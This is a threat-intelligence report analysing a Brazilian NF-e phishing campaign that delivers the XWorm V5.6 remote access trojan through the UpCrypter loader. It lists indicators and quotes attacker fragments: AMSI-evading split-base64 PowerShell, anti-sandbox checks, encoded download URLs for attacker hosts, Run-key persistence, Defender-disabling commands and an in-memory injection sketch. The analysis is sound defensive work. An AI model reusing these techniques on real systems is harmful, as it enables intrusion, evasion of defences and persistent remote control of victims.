## Executive Summary

This report documents the complete analysis of a multi-stage malware campaign targeting Brazilian users through a **NF-e (Nota Fiscal Eletrônica) phishing lure**. The infection chain delivers **XWorm V5.6** - a full-featured Remote Access Trojan - via a layered loader called **UpCrypter**, using fileless execution techniques throughout to avoid disk-based detection.

The campaign involves six distinct execution stages: a CDN-hosted phishing HTML page, a JavaScript dropper, a PowerShell stager with split base64 obfuscation, a reflectively-loaded .NET loader DLL, a PowerShell persistence installer, and finally XWorm V5.6 injected into `InstallUtil.exe` via AppDomain abuse.

Key findings:

- **Initial lure:** NF-e themed JavaScript dropper (`Nota-Fiscal - 028657289.js`)
- **Loader:** `ClassLibrary3.dll` (UpCrypter) - protected by Eziriz .NET Reactor, loaded entirely in-memory via `Assembly.Load()`
- **Final payload:** XWorm V5.6 injected into `InstallUtil.exe` (LOLBin)
- **C2:** `ouro.ddns.net:7070` → resolved to `190.102.43.216` (Brazil)
- **AES Key:** `<123456789>` - known default from cracked XWorm V5.x builder
- **Operator profile:** Low sophistication, Brazilian-infrastructure, regional targeting

---

## Tooling

| Tool | Purpose |
|------|---------|
| **DetectItEasy (DIE)** | Initial PE identification, compiler/protector fingerprinting |
| **Malcat** | Static analysis, string extraction, .NET metadata inspection, entropy analysis |
| **dnSpy** | .NET decompilation, Settings class IL decoding, method RVA parsing |
| **ANY.RUN** | Dynamic detonation (two sessions), behavioral observation, config extraction |

---

## Sample Inventory

| Role | Filename | SHA-256 | Size |
|------|----------|---------|------|
| Stage 1 - JS dropper | `Nota-Fiscal - 028657289.js` | `8C256B22922236EE34C441ABA75374CFE4C34874D107B970A12D27A7C6928117` | - |
| Stage 2 - PS stager | `bdbsk.ps1` | `8786F1EB0984C4704CD4EAE0CFAF376717975872301FDAE5FF39FA8395AFC8EC` | - |
| Stage 3 - Loader DLL | `ClassLibrary3.dll` (a.k.a. `malicious_Slayed0.dll`) | `e646c794831b993fb2c347576943fec13b0cd53730c64cfe67a423d430f76498` | 434 KB |
| Stage 3 - DLL byte-array | `hzllg.txt` | `E6653AE3E533F58800CB41D307906785AA68E8BD4B08CE26C3111E6F407815C5` | - |
| Stage 4 - XWorm PE | `malicious.exe` (from `pastee.dev` dead-drop) | `8be210d85879782906ed4c0c9b7a5a306d8fd04323bada8d73f59b84d4c98643` | 33 KB |

---

## Infection Chain Overview

```
msedge.exe
  └─ GET https://pdf402.b-cdn.net/ErrorLeitor-402.html  [185.111.111.156]
       └─ Downloads/Nota-Fiscal - 028657289.js           [Stage 1 - JS dropper]
            └─ wscript.exe (PID 8592)
                  └─ wscript.exe //nologo Public\ptjzh.js (PID 8644)
                        └─ powershell.exe (PID 8700)     [Stage 2 - PS stager, inline b64]
                              ├─ GET …/03.txt → hzllg.txt         [DLL byte-array, 434 KB]
                              ├─ GET …/01.txt                     [XWorm byte-array, ~5 MB]
                              ├─ GET …/02.txt                     [config blob, 829 B]
                              ├─ GET pastee.dev/d/SUFc5yHU/0      [XWorm PE dead-drop]
                              └─ powershell.exe → bdbsk.ps1 (PID 8952)
                                    └─ Assembly.Load(hzllg bytes) [Stage 3 - loader in-memory]
                                          → ClassLibrary3.Class1.prFVI()
                                                └─ powershell.exe → vcrmm.ps1  [persistence]
                                                      └─ InstallUtil.exe (PID 932) [Stage 4 - XWorm]
                                                            └─ TCP 190.102.43.216:7070
```

---

## Stage 0 - Phishing Lure

The entry point is a CDN-hosted HTML page served from **BunnyNet** infrastructure:

```
https://pdf402.b-cdn.net/ErrorLeitor-402.html
IP: 185.111.111.156:443 (BunnyNet CDN, GB)
```

The page presents a fake document reader error page ("ErrorLeitor-402") that prompts the victim to download what appears to be a NF-e viewer. The downloaded file is `Nota-Fiscal - 028657289.js` - the number `028657289` mimics a real fiscal document identifier, increasing perceived legitimacy to the Brazilian target audience.


> Initial network request to `pdf402.b-cdn.net` and the file download event showing `Nota-Fiscal - 028657289.js`.

---

## Stage 1 - JavaScript Dropper (ptjzh.js)

**Execution:**
```
wscript.exe "Nota-Fiscal - 028657289.js"   [PID 8592]
  └─ wscript.exe //nologo "C:\Users\Public\ptjzh.js"   [PID 8644]
```

The initial JS writes a second-stage script to `C:\Users\Public\ptjzh.js` and relaunches it via `wscript.exe //nologo` to suppress any console window. The `Public` directory is chosen deliberately: it is world-writable without elevation and accessible to all users on the machine.

The `//nologo` flag suppresses the WScript banner - a behavioral evasion technique common in commodity malware loaders.

> Process tree showing `wscript.exe` (PID 8592) spawning `wscript.exe` (PID 8644) with the `//nologo Public\ptjzh.js` argument.

---

## Stage 2 - PowerShell Stager (PID 8700)

`ptjzh.js` spawns a `powershell.exe` process with a large inline command assembled through **split base64 string concatenation** - a standard AMSI bypass technique that avoids placing the full encoded payload as a single detectable string.

### Obfuscation Technique

The PowerShell command constructs a base64 payload through variable concatenation:

```powershell
$Ptdoe = 'ZnVuY3...' + '0' + 'KIC' + 'A' + 'jKC' + ...
$HSfNk = '...' + '...'
$qwwsz = ($Ptdoe + $HSfNk).Replace('+ ','').Replace(' ','')
# → full base64 string assembled in memory
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($qwwsz))
```

Single-character fragments (`'0'`, `'A'`, `'9'`) are interleaved with longer base64 chunks. AMSI scanning the raw command sees no complete signature; only the in-memory assembled string is the actual payload.

> PowerShell process (PID 8700) command line visible in the process details panel, showing the split string concatenation pattern.

### Decoded Stager Logic

After base64 decoding, the stager performs the following operations in order:

**1. Connectivity check (anti-sandbox)**
```powershell
if (-not (Test-Connection -ComputerName www.google.com -Count 1 -Quiet)) {
    Restart-Computer -Force  # kill sandbox if offline
}
```

**2. Process-based anti-analysis**
```powershell
$blocklist = @('handle','autorunsc','Dbgview','tcpvcon','any.run','sandbox',
               'tcpview','OLLYDBG','ImmunityDebugger','Wireshark','apateDNS','analyze')
foreach ($proc in Get-Process) {
    if ($blocklist -contains $proc.Name) { Stop-Computer -Force }
}
```

**3. Download the loader DLL**

The C2 URL is base64-encoded inline:
```
aHR0cHM6Ly9hbmRyZWZlbGlwZWRvbmFzY2ltZTE3NzU0NzExMTczMjguMjA4MjIxOS5tZXVzaXRlaG9zdGdhdG9yLmNvbS5ici9GVlR3aFd6YVFqXzA2XzA0X01ldXNfQXJxdWl2b3NEZVRleHRvLzAzLnR4dA==
→ https://andrefelipedonascime1775471117328.2082219.meusitehostgator.com.br
   /FVTwhWzaQj_06_04_Meus_ArquivosDeTexto/03.txt
```

Content saved to `C:\Users\Public\hzllg.txt` - the `ClassLibrary3.dll` serialized as a comma-separated decimal byte array.

**4. Build and execute `bdbsk.ps1`**

The stager assembles the next-stage PS1 script string in memory (again via concatenation to avoid AMSI), writes it to `C:\Users\Public\bdbsk.ps1`, and executes it:

```powershell
powershell.exe -ExecutionPolicy Bypass -File C:\Users\Public\bdbsk.ps1
```

**5. Secondary dead-drop**

A second URL is decoded from a reversed base64 string:
```
MC9VSHk1Y0ZVUy9kL3ZlZC5lZXRzYXAvLzpzcHR0aA==  (base64 of reversed URL)
→ reversed: https://pastee.dev/d/SUFc5yHU/0
```

This is the **Pastee dead-drop** containing the XWorm PE as a reversed decimal byte-array.

> Network connections panel showing HTTP GET requests to the `meusitehostgator.com.br` C2 for `/03.txt`, `/01.txt`, and `/02.txt`.


> DNS resolution and HTTP GET to `pastee.dev/d/SUFc5yHU/0`.

---

## Stage 3 - UpCrypter Loader DLL (ClassLibrary3.dll)

### Static Identification

| Field | Value |
|-------|-------|
| **Original name** | `ClassLibrary3.dll` |
| **SHA-256** | `e646c794831b993fb2c347576943fec13b0cd53730c64cfe67a423d430f76498` |
| **MD5** | `cf4d8cc534d353b111b22feff3cf8dec` |
| **Size** | 434,176 bytes |
| **Format** | PE32 DLL - .NET / Mono |
| **Compile timestamp** | `2072-12-02` (spoofed future date - .NET Reactor artifact) |
| **Protector** | **Eziriz .NET Reactor** (unregistered - string in `#US` heap) |
| **Sections** | `.text` (entropy 5.74), `.rsrc`, `.reloc` |


> PE identification panel showing .NET assembly with 3 sections and the spoofed future compile timestamp - a known artifact of Eziriz .NET Reactor.


>`#US` heap string `"This assembly is protected by an unregistered version of Eziriz's .NET Reactor!"` confirming the protector identity.

### .NET Reactor Protection

The DLL is protected by a cracked copy of Eziriz .NET Reactor, which applies:

- **AES + MD5** runtime decryption of method bodies via embedded manifest resources
- **Dynamic IL emission** using `DynamicMethod` + `ILGenerator` to reconstruct method bodies at runtime - the actual IL is never written to disk in plaintext form
- **Proxy method layer**: ~2,128 methods renamed to `smethod_N` / `vmethod_N` / `m0000XX` - making static analysis in dnSpy produce stub stubs rather than real logic

```
Methods: ~2,128 total
  → majority: smethod_0 ... smethod_N  (renamed by Reactor)
  → real logic: resolved at runtime via DynamicMethod proxy
```

This explains why DotNetSlayer achieved only partial deobfuscation - the Reactor proxy layer prevents static IL reconstruction.

> TypeDef tree showing the mass-renamed `smethod_N` / `vmethod_N` methods - visible evidence of .NET Reactor name obfuscation.


> `#Blob` or resource table showing the 4 encrypted embedded resources (largest: 186 KiB) that carry the runtime-decrypted method bodies.

### Anti-Analysis Capabilities

Before any loader logic executes, the DLL checks for analysis environments via four independent detection paths:

#### Sandbox Detection
```csharp
// IsSandboxieInstalled()
Registry.LocalMachine.OpenSubKey(@"SOFTWARE\Sandboxie");
[DllImport("kernel32.dll")] GetModuleHandle("SbieDll.dll");
```

#### VM / Hypervisor Detection
```csharp
// Checks HKLM\HARDWARE\DESCRIPTION\System\BIOS for:
// "VBOX", "VMWARE", "VIRTUAL", "HYPER-V", "QEMU"
```

#### Debugger Detection
```csharp
System.Diagnostics.Debugger.IsAttached
```

#### Process Blocklist
```
vboxservice, vmtoolsd, vmwareuser, joeboxserver,
any.run, anyrun, Wireshark, ollydbg, immunitydebugger,
apateDNS, x64dbg, ProcessHacker
```

Detection triggers a silent exit or a controlled redirect to a benign code path. The strings `vm.txt` and `detect_analisse_process.txt` (note the typo in "analisse") appear as flag files - suggesting the loader logs detections locally.

> String references to `SbieDll.dll`, `vboxservice`, `vmtoolsd` in the anti-analysis section of the decompiled loader.

### Loader Core - Reflective Load Chain

The entry point exposed to the PS stager is `ClassLibrary3.Class1.prFVI()`. Its execution path:

**1. Resource unpacking**
```csharp
// Decrypt 4 embedded resources using AES + MD5-derived key
Assembly.GetManifestResourceStream("resource_name")
// → CryptoStream → MemoryStream → byte[]
```

**2. In-memory assembly load**
```csharp
Assembly asm = Assembly.Load(decryptedBytes);
Type t = asm.GetType("ClassLibrary3.Class1");
object instance = Activator.CreateInstance(t);
t.GetMethod("prFVI").Invoke(instance, new object[] { c2Url, deadDropUrl });
```

**3. Process injection (XWorm delivery)**

WinAPI calls are resolved dynamically via string splitting to evade import scanning:
```csharp
// Strings split to avoid static detection:
"Virtual" + "Alloc"          → VirtualAllocEx
"Write" + "Process" + "Memory" → WriteProcessMemory
"Open" + "Process"            → OpenProcess
```

Additionally, `Wow64DisableWow64FsRedirection` is called - indicating explicit handling of 64-bit process targeting from a 32-bit context.

> Cross-references to `LoadLibrary` / `GetProcAddress` calls and the split string patterns for `VirtualAllocEx` / `WriteProcessMemory`.

### Persistence Installation

Before injecting XWorm, the loader establishes persistence:

**Registry Run key:**
```
HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
  → "Update Drivers NVIDEO_<suffix>"
  → cmd.exe /c start /min powershell.exe -WindowStyle Hidden
             -ExecutionPolicy Bypass
             -command ". '<path>\vcrmm.ps1'; exit"
```

**Persistence PS1 path:**
```
C:\Users\<user>\AppData\LocalLow\LocalLow Windows\
  Program Rules\Program Rules NVIDEO\
    Program Rules\Program Rules NVIDEO\vcrmm.ps1
```

The deeply nested path (`Program Rules NVIDEO\Program Rules\Program Rules NVIDEO`) is deliberately chosen - its visual length discourages manual inspection in the registry and file explorer.

**Defender bypass (executed via PowerShell):**
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -MAPSReporting 0
Set-MpPreference -SubmitSamplesConsent 2
```

> Registry activity panel showing the `HKCU\...\Run` write with the `"Update Drivers NVIDEO_*"` key name.

### Settings Class - Encrypted Config (PE)

The `Settings` class static constructor (`.cctor`) initializes 7 fields from the `#US` heap at runtime. All string fields are AES-encrypted with a build-time key; one field (`0x0e`) is stored in plaintext as the Mutex:

| Field (token) | Type | Runtime Value |
|---------------|------|---------------|
| `0x04000006` (Hosts) | AES-encrypted | `ouro.ddns.net` |
| `0x04000008` (Ports) | AES-encrypted | `7070` |
| `0x04000009` (Version) | AES-encrypted | - |
| `0x0400000a` (InstallPath) | AES-encrypted | AppData path |
| `0x0400000b` (Install flag) | `int = 128` | Delay / flag value |
| `0x0400000c` | AES-encrypted | - |
| `0x0400000d` | AES-encrypted | - |
| `0x0400000e` (Mutex) | **Plaintext** | `HiZwA4QbSRd4KwXM` |

The IL at file offset `0x3f0` maps directly to:
```
ldstr 'E2H6Yi9470zflRFaeSLPfw=='  → stsfld Hosts
ldstr 'Jrm2dru/0JsMPqPL5+v3Eg=='  → stsfld Ports
ldstr 'kStAjBYX1+gBeXKjuqtA/Q=='  → stsfld Version
ldstr 'MZqXCvan34MHznMMVt4vfA=='  → stsfld InstallPath
ldc.i4.s 128                       → stsfld Install
ldstr '6jicTHAgIZUADen5NplKFQ=='  → stsfld (field_0c)
ldstr 'MJ+4WgI4Lz4sM3KbITiN6Q=='  → stsfld (field_0d)
ldstr 'HiZwA4QbSRd4KwXM'          → stsfld KEY/Mutex
```

> `.cctor` IL listing at file offset `0x3f0` showing the `ldstr` / `stsfld` pairs and the plaintext `HiZwA4QbSRd4KwXM` string at the final `ldstr`.

---

## Stage 4 - XWorm V5.6

### Sample Identification

| Field | Value |
|-------|-------|
| **SHA-256** | `8be210d85879782906ed4c0c9b7a5a306d8fd04323bada8d73f59b84d4c98643` |
| **MD5** | `e63c42d0e6c2b29094b406d27c009e5f` |
| **Size** | 33,280 bytes |
| **Format** | PE32 EXE - .NET / Mono |
| **Subsystem** | GUI (2) - no console window |
| **Compile timestamp** | `Thu Apr 16 03:32:29 2026 UTC` |
| **Sections** | `.text` (entropy 5.74), `.rsrc`, `.reloc` |
| **Delivery** | Decimal byte-array at `pastee.dev/d/SUFc5yHU/0` (reversed) |

The payload was retrieved from the Pastee dead-drop as a plain-text file containing the XWorm PE serialized as **decimal integers in reversed order** - a trivial obfuscation to prevent automated file-type detection on the hosting platform.

> PE identification of `malicious.exe` confirming .NET assembly, GUI subsystem, no packer detected.

### Config Extraction (ANY.RUN Memory Dump)

ANY.RUN's config extractor recovered the full XWorm runtime configuration from the memory space of `InstallUtil.exe` (PID 932):

| Field | Value |
|-------|-------|
| **Family** | XWorm V5.6 |
| **C2 Host** | `ouro.ddns.net` |
| **C2 Port** | `7070` |
| **C2 IP (resolved)** | `190.102.43.216` |
| **C2 ASN** | Serviços de Infraestrutura e Datacenter (BR) |
| **AES Key** | `<123456789>` |
| **Splitter** | `<Xwormmm>` |
| **Sleep time** | 3 seconds |
| **USB drop name** | `XWorm V5.6` |
| **Mutex** | `HiZwA4QbSRd4KwXM` |


> Malware configuration panel showing the extracted XWorm config with all fields: C2, AES Key, Splitter, Mutex, Sleep time.

### AES Key Intelligence

The key `<123456789>` is a **known default** from the cracked/leaked XWorm V5.x builder circulated in underground forums. Its presence without modification indicates:

- The operator used the builder's default configuration without customization
- The same key is likely shared across multiple campaigns from different actors using the same cracked builder
- Any XWorm instance using this key can be decrypted with the same key material

This is a **low-sophistication operator signal** - distinguishable from more careful actors who modify the builder defaults.

### Injection Method - InstallUtil.exe (LOLBin)

XWorm is not written to disk as a PE file. The loader injects it into `InstallUtil.exe` via **.NET AppDomain abuse**:

```csharp
// InstallUtil.exe loads the XWorm assembly via AppDomain
// No process hollowing, no shellcode - pure managed injection
AppDomain domain = AppDomain.CreateDomain("...");
domain.Load(xwormBytes);  // XWorm runs inside InstallUtil process context
```

`InstallUtil.exe` (`C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe`) is a **signed Microsoft binary** - its execution is whitelisted by application control policies in most enterprise environments (T1218.004).

After injection, `cmd.exe` (PID 628) cleans up the staging PS1:
```batch
cmd.exe /c ping 127.0.0.1 -n 1 & del "c:\users\public\bdbsk.ps1"
```

> Process tree showing `InstallUtil.exe` (PID 932) as a child of `powershell.exe`, with the `malware_config` indicator tag and the network connection to `190.102.43.216:7070`.


> Network activity tab for PID 932 showing TCP connection to `ouro.ddns.net` / `190.102.43.216:7070` with `unknown` reputation.

### XWorm V5.6 Capability Overview

XWorm is a commodity RAT sold on cybercrime forums. Version 5.6 includes:

| Capability | Description |
|-----------|-------------|
| **Remote shell** | Full cmd.exe / PowerShell remote execution |
| **File manager** | Browse, upload, download, delete files |
| **Keylogger** | Captures keystrokes system-wide |
| **Clipboard monitor** | Steals clipboard content (crypto wallet addresses, passwords) |
| **Screenshot** | Periodic or on-demand desktop capture |
| **Webcam** | Live webcam feed |
| **HVNC** | Hidden VNC - full interactive desktop without victim awareness |
| **Process manager** | Kill / inject into processes |
| **Browser stealer** | Credentials, cookies, saved passwords from major browsers |
| **Startup manager** | Enumerate and modify persistence entries |
| **DDoS modules** | HTTP/TCP flood |
| **USB propagation** | Auto-copy to removable drives |
| **Reverse proxy** | Route traffic through victim machine |
| **Ransomware module** | Optional file encryption via operator command |

Communication uses **AES-256-CBC** with the configured key (`<123456789>`) and splitter (`<Xwormmm>`) to frame protocol messages. All C2 traffic travels over **TCP port 7070**.

---

## Network Infrastructure

### C2 Map

| Domain | Resolved IP | Port | ASN | Country | Role |
|--------|------------|------|-----|---------|------|
| `pdf402.b-cdn.net` | `185.111.111.156` | 443 | CDNEXT | GB | Phishing lure CDN |
| `andrefelipedonascime1775471117328.2082219.meusitehostgator.com.br` | `104.18.42.56` / `172.64.145.200` | 443 | CLOUDFLARENET | US | Loader C2 (HostGator BR) |
| `pastee.dev` | `23.186.113.60` | 443 | MEOWNET | US | XWorm dead-drop |
| `ouro.ddns.net` | `190.102.43.216` | 7070 | Serviços Infra e Datacenter | **BR** | XWorm C2 (DynDNS) |

